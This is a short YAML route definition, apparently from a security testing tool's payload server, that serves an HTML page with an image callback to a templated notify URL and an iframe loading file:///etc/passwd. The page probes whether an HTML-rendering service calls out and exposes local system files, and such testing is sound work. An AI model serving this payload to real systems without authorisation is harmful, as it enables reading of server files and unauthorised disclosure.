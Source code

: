 ```yaml
---
title: HTML Iframe
description: HTML page with iframe and image callback
weight: 1
pattern: /ht$
is_final: true
data:
  headers:
    Content-Type: text/html
  body: |
    <html>
    <body>
      <img src="{{.NotifyString}}/static-lh" />
      <iframe src="file:///etc/passwd" height="500"></iframe>
    </body>
    </html>
---
```


### /ht

Iframe callback
